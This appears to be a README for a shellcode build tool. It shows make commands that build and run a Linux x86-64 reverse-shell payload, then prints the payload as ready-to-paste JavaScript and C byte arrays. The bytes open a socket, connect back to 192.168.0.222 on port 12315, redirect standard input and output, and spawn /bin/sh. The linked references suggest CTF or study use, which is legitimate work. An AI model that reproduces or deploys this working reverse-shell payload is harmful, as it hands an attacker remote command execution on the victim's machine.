 ## Make Shellcode

* build shellcode:

```shell
make shellcode T=linux.reverse64IPv4

```

* build elf for run shellcode:

```shell
make run T=linux
```

* run shellcode:

```
./run ./shellcode
```

* shellcode to array:

```shell
╭─ 
╰─ python ./tools/s2a.py shellcode
var JavaScript_shellcode = new Uint8Array([
    0x6a, 0x02, 0x5f, 0x6a, 0x01, 0x5e, 0x6a, 0x00,
    0x5a, 0x6a, 0x29, 0x58, 0x0f, 0x05, 0x48, 0x97,
    0x6a, 0x00, 0x48, 0xb8, 0x02, 0x00, 0x30, 0x1b,
    0xc0, 0xa8, 0x00, 0xde, 0x50, 0x48, 0x89, 0xe6,
    0x6a, 0x10, 0x5a, 0x6a, 0x2a, 0x58, 0x0f, 0x05,
    0x6a, 0x02, 0x5e, 0x6a, 0x21, 0x58, 0x0f, 0x05,
    0x48, 0xff, 0xce, 0x79, 0xf6, 0x31, 0xc0, 0x50,
    0x48, 0xbf, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x57, 0xb0, 0x3b, 0x48, 0x89, 0xe7,
    0x31, 0xf6, 0x31, 0xd2, 0x0f, 0x05,
])
char C_shellcode[] =
    "\x6a\x02\x5f\x6a\x01\x5e\x6a\x00"
    "\x5a\x6a\x29\x58\x0f\x05\x48\x97"
    "\x6a\x00\x48\xb8\x02\x00\x30\x1b"
    "\xc0\xa8\x00\xde\x50\x48\x89\xe6"
    "\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
    "\x6a\x02\x5e\x6a\x21\x58\x0f\x05"
    "\x48\xff\xce\x79\xf6\x31\xc0\x50"
    "\x48\xbf\x2f\x62\x69\x6e\x2f\x2f"
    "\x73\x68\x57\xb0\x3b\x48\x89\xe7"
    "\x31\xf6\x31\xd2\x0f\x05"

```

## refs

[shellcode for CTF style exploitation](https://github.com/osirislab/Shellcode)

[Shellcodes database for study cases](http://shell-storm.org/shellcode/)
